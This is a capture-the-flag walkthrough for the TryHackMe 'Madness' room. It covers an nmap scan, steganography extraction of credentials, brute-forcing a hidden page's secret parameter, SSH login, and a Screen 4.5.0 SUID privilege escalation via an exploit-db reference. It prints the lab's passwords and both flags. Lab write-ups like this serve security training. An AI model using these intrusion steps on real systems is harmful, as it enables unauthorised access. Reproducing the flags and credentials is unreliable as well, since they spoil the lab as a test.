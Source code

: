 # <div align="center">[Madness](https://tryhackme.com/r/room/madness)</div>
<div align="center">
  <img src="https://github.com/user-attachments/assets/044d66b7-a10d-45ac-9790-2df9df4478c2" height="200"></img>
</div>

## Let start with Scanning The IP ```nmap -sC -sV <IP>```
```
death@esther:~$ nmap -sC -sV 10.10.81.42
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-04 15:36 IST
Nmap scan report for 10.10.81.42
Host is up (0.16s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ac:f9:85:10:52:65:6e:17:f5:1c:34:e7:d8:64:67:b1 (RSA)
|   256 dd:8e:5a:ec:b1:95:cd:dc:4d:01:b3:fe:5f:4e:12:c1 (ECDSA)
|_  256 e9:ed:e3:eb:58:77:3b:00:5e:3a:f5:24:d8:58:34:8e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
### On apache2 default page there is a comment and Path of img.
<div align="center">
  <img src="https://github.com/user-attachments/assets/0d7cda38-0438-4380-8cf5-5fb5b05902c5" height=""></img>
</div>


### Let download this imge
```
wget http://10.10.81.42/thm.jpg
```
### Its not an image as i examined the first 12 bits of and converted it to a **JPG** format.
```
xxd thm.jpg | head
printf '\xff\xd8\xff\xe0\x00\x10\x4a\x46\x49\x46\x00\x01' | dd conv=notrunc of=thm.jpg bs=1
```
### Let take look at this:
```
http://10.10.81.42/th1s_1s_h1dd3n
```
### Source code i got this ```http://Ip/th1s_1s_h1dd3n/?secret=```

<div align="center">
  <img src="https://github.com/user-attachments/assets/cd9f8dce-c50d-4732-a035-7c04232298ed" height=""></img>
</div>

### Doing this manually take a long time let automate this with help of python, I already created secret.py [tap here](./secret.py) 
```
death@esther:~$ python3 secret.py 
Enter IP:10.10.81.42
Found secret: 73
<html>
<head>
  <title>Hidden Directory</title>
  <link href="stylesheet.css" rel="stylesheet" type="text/css">
</head>
<body>
  <div class="main">
<h2>Welcome! I have been expecting you!</h2>
<p>To obtain my identity you need to guess my secret! </p>
<!-- It's between 0-99 but I don't think anyone will look here-->

<p>Secret Entered: 73</p>

<p>Urgh, you got it right! But I won't tell you who I am! y2RPJ4QaPF!B</p>

</div>
</body>
</html>
```
```
y2RPJ4QaPF!B
```

### Let try steghide maybe this is the passphrase,
```
death@esther:~$ steghide info thm.jpg
"thm.jpg":
  format: jpeg
  capacity: 1.0 KB
Try to get information about embedded data ? (y/n) y
Enter passphrase: 
  embedded file "hidden.txt":
    size: 101.0 Byte
    encrypted: rijndael-128, cbc
    compressed: yes
```
```
steghide extract -sf thm.jpg
```
### We got hidden.txt
```
death@esther:~$ cat hidden.txt 
Fine you found the password! 

Here's a username 

wbxre

I didn't say I would make it easy for you!
```
### This username looks strange to me let try to decode this
```
echo -n "wbxre" | tr 'A-Za-z' 'N-ZA-Mn-za-m'
```
### this is ```Rot13``` cypher on cyberchef
<div align="center">
  <img src="https://github.com/user-attachments/assets/b76ced3d-fed9-4105-87bb-f69c036a6921" height=""></img>
</div>

### ```joker``` this is the real username.

### I have tried everthing but didn't find anything after help of some resource i found the lab banner contain some information. 
```
wget https://github.com/Esther7171/THM-Walkthroughs/blob/main/Madness/banner.jpg
```
```
death@esther:~$ steghide info banner.jpg 
"banner.jpg":
  format: jpeg
  capacity: 6.6 KB
Try to get information about embedded data ? (y/n) y
Enter passphrase: 
  embedded file "password.txt":
    size: 83.0 Byte
    encrypted: rijndael-128, cbc
    compressed: yes
```
### It just a blank entry as passphase,
```
death@esther:~$ steghide extract -sf banner.jpg 
Enter passphrase: 
wrote extracted data to "password.txt".
```
### Let take a look at this password.txt
```
death@esther:~$ cat password.txt 
I didn't think you'd find me! Congratulations!

Here take my password

*axA&GF8dP
```
### Let log in with SSH.
* ### Username: ```joker```
* ### Password: ```*axA&GF8dP```
* ### ```ssh joker@<IP>```
```
death@esther:~$ ssh joker@10.10.81.42
The authenticity of host '10.10.81.42 (10.10.81.42)' can't be established.
ED25519 key fingerprint is SHA256:B0gcnLQ9MrwK4uUZINN4JI6gd+EofSsF2e8c5ZMDrwY.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.81.42' (ED25519) to the list of known hosts.
joker@10.10.81.42's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-170-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Last login: Sun Jan  5 18:51:33 2020 from 192.168.244.128
joker@ubuntu:~$ 
```
## User flag
```
cat user.txt 
```
```
THM{d5781e53b130efe2f94f9b0354a5e4ea}
```
### Post Exploitation
```
find / -user root -perm -u=s 2>/dev/null
```
### Screen-4.5.0 is vulnerable for privesc.
```
ls -l /bin/screen*
```
### Let exploit 
```
https://www.exploit-db.com/exploits/41154
```
### Copy the exploit
```
nano exploit.sh
```
### Past it & Run
```
sh 41154.sh
```
## Root flag
```
cat /root/root.txt
```
```
THM{5ecd98aa66a6abb670184d7547c8124a}
```

### Done !! 🙂
